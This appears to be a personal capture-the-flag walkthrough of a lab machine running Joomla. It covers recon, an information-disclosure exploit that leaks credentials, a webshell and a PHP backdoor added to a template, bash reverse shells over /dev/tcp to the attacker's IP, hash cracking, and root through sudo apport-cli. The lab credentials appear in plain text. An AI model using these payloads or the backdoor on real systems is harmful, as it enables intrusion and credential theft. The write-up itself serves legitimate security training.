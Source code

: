 #linux #easy #joomla #cve

# nmap 
```shell
nmap -sC -sV -oN nmap/dev $IP -T5 --min-rate=1000 -p- -sT
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-06 04:35 CST
Warning: 10.129.229.146 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.129.229.146
Host is up (0.24s latency).
Not shown: 65065 closed tcp ports (conn-refused), 468 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

# scanned the subdomain, found dev.devvortex.htb

```shell
ffuf -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://devvortex.htb -H "Host: FUZZ.devvortex.htb" -fc 302


dev                     [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 316ms]

```




# The site uses joomla, found it through the /administrator directory

```shell
gobuster dir -w /opt/useful/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://dev.devvortex.htb

/administrator        (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/administrator/]

```

# Used droopescan to enumerate the site, found the version
```shell
droopescan scan joomla -u http://dev.devvortex.htb --enumerate a
```
# Found possible exploit https://www.exploit-db.com/exploits/51334 
[2023-23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752) 


# After running the exploit, it collects credentials in the site
```shell
python3 CVE-2023-23752.py -u http://dev.devvortex.htb
[+] Username: lewis
[+] Username: logan

[+] Password: P4ntherg0t1n5r3c0n##

```

# lewis:P4ntherg0t1n5r3c0n## works

# Used the technique in the github repo to gain reverse shell, uploaded the zip file then I used this url to execute commands

https://github.com/p0dalirius/Joomla-webshell-plugin?tab=readme-ov-file

http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php?action=exec&cmd=id



# Modified cassiopeia template error.php, added an "if" isset condition to not messed up the normal function of the php file 


```php
if (isset($_REQUEST['cmd'])){
  system($_REQUEST['cmd'])
  
}
```

# triggered a POST request /templates/cassiopeia/error.php and used this payload

```shell
cmd=/bin/bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.84/4444+0>%261'
```


# used lewis credentials in the mysql server 
found logan password
```shell
 logan:$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12

john --wordlist=/usr/share/wordlists/rockyou.txt creds.txt 

logan:tequieromucho
```


# logan has sudo privilege
```shell

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli

```


# executed the command as ROOT, the command opens a terminal where it execute commands as ROOT using the ! syntax

```shell
sudo apport-cli -f

!bash -i >& /dev/tcp/10.10.14.84/4445 0>&1
```


reference: https://github.com/diego-tella/CVE-2023-1326-PoC